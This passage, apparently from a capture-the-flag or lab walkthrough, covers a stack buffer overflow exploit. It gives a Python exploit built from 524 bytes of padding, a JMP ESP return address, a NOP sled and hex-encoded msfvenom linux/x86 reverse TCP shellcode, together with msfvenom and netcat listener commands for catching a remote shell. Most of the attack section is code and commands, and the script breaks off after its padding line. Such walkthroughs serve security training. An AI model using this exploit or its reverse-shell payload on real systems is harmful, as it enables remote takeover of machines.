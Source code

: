 Update your script:

```python
padding = b"A" * 524
eip = b"\xf3\x12\x17\x31"
nop_sled = b"\x90" * 16
payload = <your generated shellcode>

buffer = padding + eip + nop_sled + payload
```

### **Test Locally**

- Run the Python exploit while the target is on your Windows VM.
- Start a `nc -lvnp 4444` listener.
- Verify that a reverse shell is received.


### **Exploit the Actual Linux Target**

- Replace the payload with one for Linux (since the remote app runs on a Linux machine):

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

- Use the same structure in the script (adjust the shellcode only).
- Run a netcat listener again:

```
nc -lvnp 4444
```

- Send the exploit and you'll get a shell


## Exploit
---

Knowing the steps we need to reproduce in order to get a shell, we can use the following exploit after we've followed everything:

```python
#!/usr/bin/python
import sys
import socket
from time import sleep

# â”€â”€â”€ 1. YOUR SHELLCODE INSERTED HERE â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€
# Your msfvenom shellcode goes here as a bytes literal, generate with: 
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

payload = (
    b"\xba\x4c\x84\x2a\x2a\xdb\xde\xd9\x74\x24\xf4\x5e\x2b\xc9"
    b"\xb1\x12\x83\xee\xfc\x31\x56\x0e\x03\x1a\x8a\xc8\xdf\x93"
    b"\x49\xfb\xc3\x80\x2e\x57\x6e\x24\x38\xb6\xde\x4e\xf7\xb9"
    b"\x8c\xd7\xb7\x85\x7f\x67\xfe\x80\x86\x0f\x0b\x7d\x6c\xd3"
    b"\x63\x83\x8e\xfa\x2f\x0a\x6f\x4c\xa9\x5c\x21\xff\x85\x5e"
    b"\x48\x1e\x24\xe0\x18\x88\xd9\xce\xef\x20\x4e\x3e\x3f\xd2"
    b"\xe7\xc9\xdc\x40\xab\x40\xc3\xd4\x40\x9e\x84"
)

# â”€â”€â”€ 2. BUILD THE BUFFER â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€
#
#   [524 "A" bytes] + [4-byte JMP ESP address] + [NOP sled] + [payload]
#
padding  = b"A" * 524
```